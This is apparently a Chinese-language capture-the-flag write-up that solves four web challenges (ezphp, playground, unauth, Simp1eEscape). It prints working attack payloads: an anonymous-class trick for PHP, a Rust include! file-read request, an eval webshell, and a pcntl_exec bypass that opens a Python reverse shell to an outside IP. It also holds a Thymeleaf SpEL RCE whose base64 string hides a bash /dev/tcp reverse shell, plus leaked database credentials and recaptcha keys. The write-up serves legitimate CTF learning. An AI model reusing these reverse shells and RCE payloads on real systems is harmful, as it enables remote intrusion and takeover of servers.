


# Writenup

## ezphp

```php
<?php
highlight_file(__FILE__);
// flag.php
if (isset($_POST['f'])) {
    echo hash_file('md5', $_POST['f']);
}
?>
```

利用`php://filter`基于oracle报错，获取到flag.php的文件内容，能leak到flag.php文件中的内容，存在一个`ezphpPhp8`的参数

```php
<?php
if (isset($_GET['ezphpPhp8'])) {
    highlight_file(__FILE__);
} else {
    die("No");
}
$a = new class {
    function __construct()
    {
    }

    function getflag()
    {
        system('cat /flag');
    }
};
unset($a);
$a = $_GET['ezphpPhp8'];
$f = new $a();
$f->getflag();
?>

```

匿名类，进行如下构造：

```
?ezphpPhp8=class@anonymous%00/var/www/html/flag.php:7$0
```


## playground

```http
POST /rust_code HTTP/1.1
Host: eci-2zeci66vb38nsk640n7g.cloudeci1.ichunqiu.com:8000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8,en;q=0.7,en-US;q=0.6
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

fn main() {
    include!("/flag");
}
```



## unauth

www.zip文件泄漏，下载之后获取到账号密码，登录可以看到一下的代码：

```
<?php
if (!isset($_SERVER['PHP_AUTH_USER'])) {
    header('WWW-Authenticate: Basic realm="Restricted Area"');
    header('HTTP/1.0 401 Unauthorized');
    echo '小明是运维工程师，最近网站老是出现bug。';
    exit;
} else {
    $validUser = 'admin';
    $validPass = '2e525e29e465f45d8d7c56319fe73036';

    if ($_SERVER['PHP_AUTH_USER'] != $validUser || $_SERVER['PHP_AUTH_PW'] != $validPass) {
        header('WWW-Authenticate: Basic realm="Restricted Area"');
        header('HTTP/1.0 401 Unauthorized');
        echo 'Invalid credentials';
        exit;
    }
}
@eval($_GET['cmd']);
highlight_file(__FILE__);
?>
```

config.inc.php

```
?php

# If you are having problems connecting to the MySQL database and all of the variables below are correct
# try changing the 'db_server' variable from localhost to 127.0.0.1. Fixes a problem due to sockets.
#   Thanks to @digininja for the fix.

# Database management system to use
$DBMS = 'MySQL';
#$DBMS = 'PGSQL'; // Currently disabled

# Database variables
#   WARNING: The database specified under db_database WILL BE ENTIRELY DELETED during setup.
#   Please use a database dedicated to DVWA.
#
# If you are using MariaDB then you cannot use root, you must use create a dedicated DVWA user.
#   See README.md for more information on this.
$_DVWA = array();
$_DVWA[ 'db_server' ]   = '127.0.0.1';
$_DVWA[ 'db_database' ] = 'dvwa';
$_DVWA[ 'db_user' ]     = 'root';
$_DVWA[ 'db_password' ] = 'b90e0086d8b1165403de6974c4167165';

# Only used with PostgreSQL/PGSQL database selection.
$_DVWA[ 'db_port '] = '5432';

# ReCAPTCHA settings
#   Used for the 'Insecure CAPTCHA' module
#   You'll need to generate your own keys at: https://www.google.com/recaptcha/admin
$_DVWA[ 'recaptcha_public_key' ]  = '6LdK7xITAAzzAAJQTfL7fu6I-0aPl8KHHieAT_yJg';
$_DVWA[ 'recaptcha_private_key' ] = '6LdK7xITAzzAAL_uw9YXVUOPoIHPZLfw2K1n5NVQ';

# Default security level
#   Default value for the secuirty level with each session.
#   The default is 'impossible'. You may wish to set this to either 'low', 'medium', 'high' or impossible'.
$_DVWA[ 'default_security_level' ] = 'impossible';

# Default PHPIDS status
#   PHPIDS status with each session.
#   The default is 'disabled'. You can set this to be either 'enabled' or 'disabled'.
$_DVWA[ 'default_phpids_level' ] = 'disabled';

# Verbose PHPIDS messages
#   Enabling this will show why the WAF blocked the request on the blocked request.
#   The default is 'disabled'. You can set this to be either 'true' or 'false'.
$_DVWA[ 'default_phpids_verbose' ] = 'false';

?>
```

存在disable_function限制，利用pcntl_exec()绕过

```
pcntl_exec("/usr/bin/python",array('-c','import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("132.232.75.90",9898));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));
```

获取一下交互式shell



然后获取flag。


## Simp1eEscape

利用302重定向，触发内网的Thymeleaf RCE

```
header("Location: http://127.0.0.1:8080/getsites?hostname=%5B%5B%24%7BT(org.springframework.util.ReflectionUtils).invokeMethod(T(org.springframework.util.ReflectionUtils).findMethod(''.class.forName('java.lang.Runtime')%2C%22exec%22%2C''.class.forName(%22%5BLjava.lang.String%3B%22))%2CT(org.springframework.util.ReflectionUtils).invokeMethod(T(org.springframework.util.ReflectionUtils).findMethod(''.class.forName('java.lang.Runtime')%2C%22getRuntime%22)%2Cnull)%2C%22bash!-c!%7Becho%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMDEuNDMuMTIyLjI1Mi84ODg5IDA%2BJjE%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%22.split(%22!%22))%7D%5D%5D");
```


